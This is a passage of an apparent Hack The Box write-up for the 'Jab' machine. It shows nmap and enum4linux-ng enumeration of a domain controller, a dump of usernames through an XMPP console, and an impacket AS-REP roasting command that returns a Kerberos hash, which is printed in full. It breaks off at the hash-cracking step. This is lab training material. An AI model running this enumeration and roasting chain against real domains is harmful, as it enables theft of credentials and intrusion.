49667/tcp open  msrpc               Microsoft Windows RPC
49671/tcp open  msrpc               Microsoft Windows RPC
49686/tcp open  msrpc               Microsoft Windows RPC
49687/tcp open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc               Microsoft Windows RPC
49760/tcp open  msrpc               Microsoft Windows RPC
49767/tcp open  msrpc               Microsoft Windows RPC
7 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5222-TCP:V=7.94SVN%I=7%D=2/24%Time=65DA3D32%P=x86_64-pc-linux-gnu%r
SF:(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabber\.or
SF:g/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmpp-str
SF:eams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5223-TCP:V=7.94SVN%T=SSL%I=7%D=2/24%Time=65DA3D3F%P=x86_64-pc-linux
SF:-gnu%r(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabb
SF:er\.org/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xm
SF:pp-streams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5263-TCP:V=7.94SVN%T=SSL%I=7%D=2/24%Time=65DA3D40%P=x86_64-pc-linux
SF:-gnu%r(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabb
SF:er\.org/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xm
SF:pp-streams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5275-TCP:V=7.94SVN%I=7%D=2/24%Time=65DA3D32%P=x86_64-pc-linux-gnu%r
SF:(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabber\.or
SF:g/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xmpp-str
SF:eams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5276-TCP:V=7.94SVN%T=SSL%I=7%D=2/24%Time=65DA3D3F%P=x86_64-pc-linux
SF:-gnu%r(RPCCheck,9B,"<stream:error\x20xmlns:stream=\"http://etherx\.jabb
SF:er\.org/streams\"><not-well-formed\x20xmlns=\"urn:ietf:params:xml:ns:xm
SF:pp-streams\"/></stream:error></stream:stream>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7070-TCP:V=7.94SVN%I=7%D=2/24%Time=65DA3D1E%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,189,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sat,\x2024\x20Feb\x
SF:202024\x2019:04:00\x20GMT\r\nLast-Modified:\x20Wed,\x2016\x20Feb\x20202
SF:2\x2015:55:02\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Ranges:\x2
SF:0bytes\r\nContent-Length:\x20223\r\n\r\n<html>\n\x20\x20<head><title>Op
SF:enfire\x20HTTP\x20Binding\x20Service</title></head>\n\x20\x20<body><fon
SF:t\x20face=\"Arial,\x20Helvetica\"><b>Openfire\x20<a\x20href=\"http://ww
SF:w\.xmpp\.org/extensions/xep-0124\.html\">HTTP\x20Binding</a>\x20Service
SF:</b></font></body>\n</html>\n")%r(RTSPRequest,AD,"HTTP/1\.1\x20505\x20U
SF:nknown\x20Version\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nC
SF:ontent-Length:\x2058\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\
SF:x20505</h1><pre>reason:\x20Unknown\x20Version</pre>")%r(HTTPOptions,56,
SF:"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sat,\x2024\x20Feb\x202024\x2019:04:
SF:05\x20GMT\r\nAllow:\x20GET,HEAD,POST,OPTIONS\r\n\r\n")%r(RPCCheck,C7,"H
SF:TTP/1\.1\x20400\x20Illegal\x20character\x20OTEXT=0x80\r\nContent-Type:\
SF:x20text/html;charset=iso-8859-1\r\nContent-Length:\x2071\r\nConnection:
SF:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\
SF:x20character\x20OTEXT=0x80</pre>")%r(DNSVersionBindReqTCP,C3,"HTTP/1\.1
SF:\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/ht
SF:ml;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\
SF:r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20charact
SF:er\x20CNTL=0x0</pre>")%r(DNSStatusRequestTCP,C3,"HTTP/1\.1\x20400\x20Il
SF:legal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;charset=is
SF:o-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<h1>Ba
SF:d\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x
SF:0</pre>")%r(Help,9B,"HTTP/1\.1\x20400\x20No\x20URI\r\nContent-Type:\x20
SF:text/html;charset=iso-8859-1\r\nContent-Length:\x2049\r\nConnection:\x2
SF:0close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20No\x20URI</
SF:pre>")%r(SSLSessionReq,C5,"HTTP/1\.1\x20400\x20Illegal\x20character\x20
SF:CNTL=0x16\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nContent-L
SF:ength:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</
SF:h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7443-TCP:V=7.94SVN%T=SSL%I=7%D=2/24%Time=65DA3D2A%P=x86_64-pc-linux
SF:-gnu%r(GetRequest,189,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sat,\x2024\x2
SF:0Feb\x202024\x2019:04:12\x20GMT\r\nLast-Modified:\x20Wed,\x2016\x20Feb\
SF:x202022\x2015:55:02\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Rang
SF:es:\x20bytes\r\nContent-Length:\x20223\r\n\r\n<html>\n\x20\x20<head><ti
SF:tle>Openfire\x20HTTP\x20Binding\x20Service</title></head>\n\x20\x20<bod
SF:y><font\x20face=\"Arial,\x20Helvetica\"><b>Openfire\x20<a\x20href=\"htt
SF:p://www\.xmpp\.org/extensions/xep-0124\.html\">HTTP\x20Binding</a>\x20S
SF:ervice</b></font></body>\n</html>\n")%r(HTTPOptions,56,"HTTP/1\.1\x2020
SF:0\x20OK\r\nDate:\x20Sat,\x2024\x20Feb\x202024\x2019:04:18\x20GMT\r\nAll
SF:ow:\x20GET,HEAD,POST,OPTIONS\r\n\r\n")%r(RTSPRequest,AD,"HTTP/1\.1\x205
SF:05\x20Unknown\x20Version\r\nContent-Type:\x20text/html;charset=iso-8859
SF:-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20M
SF:essage\x20505</h1><pre>reason:\x20Unknown\x20Version</pre>")%r(RPCCheck
SF:,C7,"HTTP/1\.1\x20400\x20Illegal\x20character\x20OTEXT=0x80\r\nContent-
SF:Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2071\r\nConne
SF:ction:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Il
SF:legal\x20character\x20OTEXT=0x80</pre>")%r(DNSVersionBindReqTCP,C3,"HTT
SF:P/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20t
SF:ext/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20
SF:close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20c
SF:haracter\x20CNTL=0x0</pre>")%r(DNSStatusRequestTCP,C3,"HTTP/1\.1\x20400
SF:\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;char
SF:set=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n
SF:<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20C
SF:NTL=0x0</pre>")%r(Help,9B,"HTTP/1\.1\x20400\x20No\x20URI\r\nContent-Typ
SF:e:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2049\r\nConnecti
SF:on:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20No\x2
SF:0URI</pre>")%r(SSLSessionReq,C5,"HTTP/1\.1\x20400\x20Illegal\x20charact
SF:er\x20CNTL=0x16\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nCon
SF:tent-Length:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x2
SF:0400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-24T19:05:09
|_  start_date: N/A
|_clock-skew: mean: 2m10s, deviation: 0s, median: 2m10s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.28 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.147.202
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-24 14:04 EST
Nmap scan report for office.htb (10.129.147.202)
Host is up (0.032s latency).
Not shown: 972 closed udp ports (port-unreach)
PORT      STATE         SERVICE      VERSION
53/udp    open          domain       Simple DNS Plus
88/udp    open          kerberos-sec Microsoft Windows Kerberos (server time: 2024-02-24 19:24:56Z)
123/udp   open          ntp          NTP v3
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
389/udp   open          ldap         Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
464/udp   open|filtered kpasswd5
500/udp   open|filtered isakmp
4500/udp  open|filtered nat-t-ike
5353/udp  open|filtered zeroconf
5355/udp  open|filtered llmnr
20262/udp open|filtered unknown
57813/udp open|filtered unknown
57843/udp open|filtered unknown
57958/udp open|filtered unknown
57977/udp open|filtered unknown
58002/udp open|filtered unknown
58075/udp open|filtered unknown
58178/udp open|filtered unknown
58419/udp open|filtered unknown
58631/udp open|filtered unknown
58640/udp open|filtered unknown
58797/udp open|filtered unknown
59193/udp open|filtered unknown
59207/udp open|filtered unknown
59765/udp open|filtered unknown
59846/udp open|filtered unknown
60172/udp open|filtered unknown
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1442.16 seconds
```

### Enumeration of Port 7070/TCP

- [http://10.129.147.202:7070/](http://10.129.147.202:7070/)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://10.129.147.202:7070/
http://10.129.147.202:7070/ [200 OK] Country[RESERVED][ZZ], IP[10.129.147.202], Title[Openfire HTTP Binding Service]
```

### Enumeration of Port 7443/TCP

- [https://10.129.147.202:7443/](https://10.129.147.202:7443/)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb https://10.129.147.202:7443/
https://10.129.147.202:7443/ [200 OK] Country[RESERVED][ZZ], IP[10.129.147.202], Title[Openfire HTTP Binding Service]
```

### Domain Enumeration

```c
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.147.202
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.147.202
[*] Username ......... ''
[*] Random Username .. 'adugwcmy'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 10.129.147.202    |
 =======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 10.129.147.202    |
 ======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: jab.htb

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.147.202    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 10.129.147.202    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 10.129.147.202    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01                                                                                                                                                                                                                 
NetBIOS domain name: JAB                                                                                                                                                                                                                    
DNS domain: jab.htb                                                                                                                                                                                                                         
FQDN: DC01.jab.htb                                                                                                                                                                                                                          
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: JAB                                                                                                                                                                                                                         

 ===========================================
|    RPC Session Check on 10.129.147.202    |
 ===========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 =====================================================
|    Domain Information via RPC for 10.129.147.202    |
 =====================================================
[+] Domain: JAB
[+] Domain SID: S-1-5-21-715914501-2118353807-243417633
[+] Membership: domain member

 =================================================
|    OS Information via RPC for 10.129.147.202    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: '1809'                                                                                                                                                                                                                          
OS build: '17763'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 =======================================
|    Users via RPC on 10.129.147.202    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ========================================
|    Groups via RPC on 10.129.147.202    |
 ========================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ========================================
|    Shares via RPC on 10.129.147.202    |
 ========================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ===========================================
|    Policies via RPC for 10.129.147.202    |
 ===========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ===========================================
|    Printers via RPC for 10.129.147.202    |
 ===========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 15.84 seconds
```

At this point I updated my `/etc/hosts` file and added `jab.htb` and `dc01.jab.htb`.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.147.202  jab.htb
10.129.147.202  dc01.jab.htb
```

## Information Gathering

We needed to install `Pidgin` to communicate via the `Jabber protocol` with the server.

```c
┌──(kali㉿kali)-[~]
└─$ sudo apt-get install pidgin
```

After that we added a new account and selected the option `Create this new account on the server` and additionally entered the `IP address` in the `Advanced` tab, we were able connecting to the server by enabling our profile.







And then we got a connection.

### User Enumeration

We clicked on `Account > syro@jab.htb/jab.htb(XAMPP) > Search for Users...`.



I just inserted the domain name `jab.htb` and clicked on `OK`.



Since the `Active Directory` held a few thousands of accounts, we needed to find another way to dump them to a file.



Next we enabled the `XMPP Console 2.14.12` in the `Plugins` menu.



We checked for available rooms.



We couldn't join `test` and `test2` only held an image which was useless.



We opened the `XAMPP Console` and searched for `users` again.



This time the query got `logged` in the `console window` in the background which made it easy to copy it out.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Jab/files]
└─$ wc -l usernames.txt 
37638 usernames.txt
```

`Yeeb` sponsored us a sanitized list of `usernames`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Jab/files]
└─$ wc -l usernames_sanitized.txt 
2686 usernames_sanitized.txt
```

## ASREPRoast

Since we had no credentials found yet, we went for `ASREPRoast`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Jab/files]
└─$ impacket-GetNPUsers -usersfile ./usernames_sanitized.txt -format hashcat -outputfile ASREProastables.txt -dc-ip 10.129.147.202 'jab.htb/' 
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User aaaron doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User aallen doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User aaltman doesn't have UF_DONT_REQUIRE_PREAUTH set
<--- CUT FOR BREVITY --->
[-] User jmontes doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$jmontgomery@JAB.HTB:489e5c9fdc6939a7528786f3593c4d48$dd8f4ed4d05cac2324333cd92dbc593963b568814b652b4178c64ef60e7cb645cc0ac63c2d62295f5c0587962ed9904d0f625e5a24b5bbce4c0775f10cedd75ef3979d2c1ff9d9f8300a3e1c64ed476d91be5328ea2c2ba68ffc8bf6113ea38d9533703906ed7ab92871144f354215536a7f62632be35868570f1b2c1bbbeaf27170fe0db604db0853829cf6460d13669fffff2e9bc4bbf7a610286355031d5f3c367ae0ecb3198544326b060039825eda1b59fe937785e76e16c72042f4a94b9dede6e05aa774b31a1f09a2fa3cbe77d5b9f57c417e1650eb470da1e13f762d35
<--- CUT FOR BREVITY --->
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Jab/files]
└─$ cat ASREProastables.txt 
$krb5asrep$23$jmontgomery@JAB.HTB:489e5c9fdc6939a7528786f3593c4d48$dd8f4ed4d05cac2324333cd92dbc593963b568814b652b4178c64ef60e7cb645cc0ac63c2d62295f5c0587962ed9904d0f625e5a24b5bbce4c0775f10cedd75ef3979d2c1ff9d9f8300a3e1c64ed476d91be5328ea2c2ba68ffc8bf6113ea38d9533703906ed7ab92871144f354215536a7f62632be35868570f1b2c1bbbeaf27170fe0db604db0853829cf6460d13669fffff2e9bc4bbf7a610286355031d5f3c367ae0ecb3198544326b060039825eda1b59fe937785e76e16c72042f4a94b9dede6e05aa774b31a1f09a2fa3cbe77d5b9f57c417e1650eb470da1e13f762d35
```

## Cracking the Hash

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Jab/files]
└─$ cat hash
